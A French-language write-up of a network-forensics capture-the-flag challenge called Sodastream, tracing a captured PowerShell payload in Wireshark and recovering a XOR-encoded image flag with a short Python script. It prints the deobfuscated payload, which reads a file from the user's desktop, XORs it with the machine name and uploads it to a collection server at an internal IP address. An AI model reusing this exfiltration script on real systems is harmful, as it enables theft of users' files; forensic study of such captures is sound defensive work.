



# WRITE-UP SODASTREAM

On est face à un challenge de forensique réseau avec un fichier `.pcapng` :

```bash
file sodastream-capture.pcapng
sodastream-capture.pcapng: pcapng capture file - version 1.0
```

On l'ouvre dans Wireshark et on inspecte les protocoles réseaux utilisés :



On a principalement des paquets TCP dans notre capture avec un gros blob de data transmis en HTTP.

Si on filtre sur le protocole HTTP, on peut voir seulement 8 paquets.
Un `GET /payload.ps1` et un `POST /upload` attirent notre attention.

Pour obtenir la vue suivante, on clique droit sur notre requête GET et sur Suivre flux HTTP :



On est face à un script Powershell obfusqué (avec `Invoke-Stealth` pour les curieux).
On peut chercher à le déchiffrer à la main mais un LLM peut aussi nous le faire rapidement: 

```powershell
$targetPath = "$env:USERPROFILE\Desktop\secret_file"

if ($env:COMPUTERNAME -eq "WINDOWS-1") {
    # Clé de chiffrement = nom de la machine en UTF8
    $key = [System.Text.Encoding]::UTF8.GetBytes($env:COMPUTERNAME)

    # Lecture du fichier à exfiltrer
    $data = [System.IO.File]::ReadAllBytes($targetPath)

    # Application d’un XOR byte-à-byte avec la clé
    $encoded = New-Object byte[] ($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $encoded[$i] = $data[$i] -bxor $key[$i % $key.Length]
    }

    # Envoi des données chiffrées vers le serveur de collecte
    $uploadUri = "http://10.50.20.16/upload"
    $webClient = New-Object System.Net.WebClient
    $webClient.UploadData($uploadUri, $encoded) | Out-Null
}
```

Il se trouve que le script upload une image vers un serveur distant.
Nous n'avons pas accès à la ressource locale `secret_file` mais uniquement au fichier XORé envoyé sur le C2.



On fait `Fichier > Exporter Objets > HTTP` pour extraire un fichier `upload`.
Ensuite, on va unXOR le fichier avec la clé qui est le nom de l'ordinateur, soit `WINDOWS-1` :

```python
#!/usr/bin/env python3
def unxor_file(input_path, output_path, key_str):
    key = key_str.encode('utf-8')
    with open(input_path, 'rb') as f:
        data = f.read()

    decoded = bytearray(len(data))
    for i in range(len(data)):
        decoded[i] = data[i] ^ key[i % len(key)]

    with open(output_path, 'wb') as f:
        f.write(decoded)

if __name__ == '__main__':
    input_file = 'upload'
    output_file = 'decoded_output'
    key = 'WINDOWS-1'
    unxor_file(input_file, output_file, key)
```

Le fichier écrit est une image :

```bash
file decoded_output
decoded_output: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 503x496, components 3
```

En l'ouvrant on peut voir notre flag.